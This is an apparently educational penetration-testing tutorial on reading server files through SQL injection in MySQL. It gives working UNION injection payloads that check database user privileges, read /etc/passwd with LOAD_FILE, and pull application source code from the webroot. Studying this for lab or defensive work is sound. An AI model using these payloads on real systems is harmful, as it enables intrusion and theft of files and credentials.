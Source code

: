 # Reading Files

In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

***

## Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

### **DB User**

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

### **User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

***

## LOAD\_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD\_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

{% hint style="info" %}
**Note:** We will only be able to read the file if the OS user running MySQL has enough privileges to read it.
{% endhint %}

Similar to how we have been using a `UNION` injection, we can use the above query:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

***

## Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.
